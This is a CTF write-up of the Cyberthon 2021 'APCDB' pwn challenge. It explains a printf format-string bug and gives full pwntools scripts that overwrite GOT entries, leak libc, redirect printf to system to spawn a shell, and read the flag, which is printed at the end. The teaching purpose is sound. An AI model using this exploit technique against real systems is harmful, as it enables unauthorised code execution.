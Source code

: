 ```yaml
---
type: ctf
title : Cyberthon 2021 Finals - APCDB (pwn)
tags: [Cyberthon CTF, feuerfuchs challenge]
date : 2021-05-19
author: Eno Leriand
featuredImage: https://upload.wikimedia.org/wikipedia/commons/5/52/Cyberthon_2021.png
---
```


> We've found a network service that seems to be posing as a fake directory of APOCALYPSE members. Although it doesn't seem to be hooked up to any actual database, it does look a tad vulnerable. Could u try to break in anyway? Who knows, access to this server might come in useful.
>
> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30201
>
> Note: once you get a shell, the flag.txt can be found in the user's home directory.
>
> Attached : [apcdb.zip](/Files/apcdb.zip)

## Overview

```c
{
  char format[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  setup_IO(argc, argv, envp);
  banner();
  printf("[+] Contact Lookup: ");
  __isoc99_scanf("%255s", format);
  puts(s);
  printf("[+] Looking up contact for ");
  printf(format);
  puts("...");
  puts("[-] Sorry, no such member!");
  exit(0);
}
```

Let's break down what the program is doing here:

1. It prints a **banner()**
2. It scans in **%255s** worth of input into `format[264]`. _no bof :(_
3. It **printf(format)** _aka our input_ which gives us a format string vulnerability.
4. It then exits the program.

<br><br>

## Exploitation Ideas

It is apparent that we have to use the format string exploit in order to win, as it is the only exploit available to us.

However, there is no function that prints the flag or grants us a shell. System function is also **not imported** in this binary.

Hence it becomes apparent that we have to call system with a **ret2libc** attack.

Hence the idea is as such:

1. We have to first loop the program back so that our program doesnt just simply close after one loop.
2. We have to leak the LIBC of the functions so we are able to find the LIBC used and obtain our offset.
3. Find an ideal function to overwrite such that we can execute `system('/bin/sh')` and obtain a shell. _the only function that seems usable is printf_

Let's get started.

<br><br>

## Exploitation

Our first objective is to loop the program back continuously. This can be done by overwriting **GOT entry for exit() to the address of main**.

This is so that everytime the program tries to exit, it goes back to main instead.

Since PIE is not enabled, our GOT addresses will remain constant so we can easily find the addresses we need, made even easier with pwntools.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)

context.binary = elf = ELF('apcdb')
exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))
p.interactive()
'''
[*] '/media/sf_dabian/Challenges/Cyberthon/Pwn/abcdb/apcdb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)

 ] Exit: 0x601040
'''
```

Next, we find the offset of our input with a simple payload ```AAAAAAAA.%p.%p.%p.%p.%p.%p```.

![image](https://user-images.githubusercontent.com/76640319/117538307-3217a680-b038-11eb-8bf8-9b51e4f6af43.png)

As you can see, our input offset is just nice on the 6th format string. Hence our offset is 6.

With that, we have everything we need to leak our global offset table values.

Initially, I tried sending `p.sendline(p64(elf.got.printf) + b'%6$s')` to the program. However it did not yield me my expected leak.

This is because the scanf only reads up till the null terminator. Consider this:

![image](https://user-images.githubusercontent.com/76640319/117538662-d5b58680-b039-11eb-86d9-715a1a9f1ab2.png)

Anyways, this means that we will have to put our format string at the start and our leak behind.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")


p.interactive()

'''
[*] Printf is 0x7f4b82cb6f70
[*] Puts is 0x7f4b82cd2aa0
'''
```

By looking up the addresses of printf and puts in blukat, we find our libc.

![image](https://user-images.githubusercontent.com/76640319/117539045-47da9b00-b03b-11eb-94a6-fd8bbc54dd2c.png)

We can now calculate the libc base by using our leak to minus the libc symbol.

With the libc base, we can find libc symbol for system, thus allowing us to overwrite **printf GOT entry with libc system**.

Thus the next time we send **/bin/sh\x00** as our input, it will be executed by system rather than printf and we get a shell.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')
libc = ELF('libc6_2.27-3ubuntu1.4_amd64.so')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")

libc.address = printf - libc.sym.printf

p.sendline(fmtstr_payload(6, {elf.got.printf: libc.sym.system}))

p.sendline('/bin/sh\x00')
p.clean()
p.sendline('cat */*/flag*')
print(p.recvline())
```

<br><br>

**Cyberthon{f4k3_c0nt4ct5_f41lur3}**
